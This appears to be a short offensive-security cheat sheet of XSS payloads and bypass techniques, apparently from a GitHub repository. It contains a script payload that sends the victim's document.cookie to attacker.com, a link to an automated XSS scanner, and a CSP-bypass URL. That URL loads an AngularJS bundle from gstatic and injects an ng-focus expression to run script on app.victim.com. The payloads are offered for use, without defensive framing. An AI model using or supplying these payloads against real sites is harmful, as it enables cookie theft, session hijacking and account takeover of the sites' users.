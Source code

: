 ## Payloads
### XSS
* `<script> new Image().src='http://attacker.com/?cookie='+encodeURI(document.cookie);</script>`

## Automated Scanners
### XSS
* https://github.com/epsylon/xsser

## Bypasses
### CSP
* check CSP policy - https://csp-evaluator.withgoogle.com/
#### XSS
* URLencode
* https://app.victim.com/login?redirectUrl=https://app.victim.com/dashboard\</script\>\<script+src="https://www.gstatic.com/fsn/angular\_js-bundle1.js"\>\</script\>\<input+ng-app+autofocus+ng-focus%3d"$event.path|orderBy%3a'[].constructor.from([1],alert)'"\>